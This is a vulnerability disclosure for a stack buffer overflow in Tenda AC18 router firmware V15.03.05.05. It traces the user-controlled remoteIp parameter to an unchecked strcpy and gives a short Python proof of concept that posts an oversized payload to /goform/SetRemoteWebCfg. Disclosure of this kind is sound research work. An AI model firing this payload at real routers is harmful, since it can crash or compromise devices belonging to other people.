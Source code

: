 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetSafeWanWebMan` function. The `v7` variable receives the `remoteIp` parameter from a POST request and is later passed to the `sub_B677C` function. 

![image-20240425210658819](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240425210658819.png)

In `sub_B677C` function, the variable `a1` is passed to function `sub_B44F0`. 

![image-20240425210817918](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240425210817918.png)

In function `sub_B44F0`, the variable `a1` is directly assigned to `(char *)&a4[38 * a3 + 2] + 2` by `strcpy` However, since the Since user can control the input of  `remoteIp`, the statemeant `strcpy((char *)&a4[38 * a3 + 2] + 2, a1);` can cause a buffer overflow. The user-provided  `remoteIp` can exceed the capacity of the `(char *)&a4[38 * a3 + 2] + 2` array, triggering this security vulnerability.

![image-20240425211447623](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240425211447623.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.102"
url = "http://" + ip + "/goform/SetRemoteWebCfg"
payload = b"a"*2000

data = {"remoteIp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240425210633040](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240425210633040.png)
